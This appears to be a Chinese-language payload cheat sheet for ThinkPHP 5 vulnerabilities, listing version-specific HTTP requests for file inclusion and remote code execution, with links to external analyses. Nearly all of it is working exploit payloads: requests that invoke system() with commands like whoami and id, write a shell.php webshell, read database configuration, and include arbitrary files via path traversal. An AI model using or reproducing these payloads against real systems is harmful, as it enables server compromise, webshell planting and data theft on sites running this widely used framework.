 RCE的洞，黑盒测试的话直接上工具就行吧。

```php
# 文件包含
# 版本：5.0.0<=ThinkPHP5<=5.0.18 、5.1.0<=ThinkPHP<=5.1.10
payload：/index/index?cacheFile=1.jpg即可包含1.jpg
# 代码：
$this->assign(request()->get());
return $this->fetch(); // 当前模块/默认视图目录/当前控制器（小写）/当前操作（小写）.html
return $this->display(); //display方法也可以触发漏洞
# 分析：https://github.com/lu2ker/PHP-Code/blob/main/ThinkPHP5之文件包含审计分析(五).md
```

```php
# 代码执行
# 不同版本 payload 需稍作调整：
# ThinkPHP <= 5.0.13：（更新，某次实战发现5.0.14也可以）
POST /?s=index/index
s=whoami&_method=__construct&method=&filter[]=system

# ThinkPHP <= 5.0.23、5.1.0 <= 5.1.16 需要开启框架app_debug
POST /
_method=__construct&filter[]=system&server[REQUEST_METHOD]=ls -al

# ThinkPHP <= 5.0.23 需要存在xxx的method路由，例如captcha
POST /?s=captcha HTTP/1.1
_method=__construct&filter[]=system&method=get&get[]=ls+-al
_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls

# 分析：https://github.com/lu2ker/PHP-Code/blob/main/ThinkPHP5之任意方法调用RCE(六).md
```

```php
# 代码执行5.0.7<=ThinkPHP5<=5.0.22 、5.1.0<=ThinkPHP<=5.1.30
# 不同版本 payload 需稍作调整：
5.1.x ：
?s=index/\think\Request/input&filter[]=system&data=pwd
?s=index/\think\view\driver\Php/display&content=<?php phpinfo();?>
?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id

5.0.22及以下 ：
?s=index/think\config/get&name=database.username # 获取配置信息
?s=index/\think\Lang/load&file=../../test.jpg    # 包含任意文件
?s=index/\think\Config/load&file=../../t.php     # 包含任意.php文件
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
# 分析：https://github.com/lu2ker/PHP-Code/blob/main/ThinkPHP5漏洞分析之代码执行(七).md
```

[5.0.X反序列化利用链](https://github.com/Mochazz/ThinkPHP-Vuln/blob/master/ThinkPHP5/ThinkPHP5.0.X%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%A9%E7%94%A8%E9%93%BE.md)

[5.1.X 反序列化链子](https://github.com/lu2ker/PHP-Code/blob/main/TP5%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%A9%E7%94%A8%E9%93%BE.md)
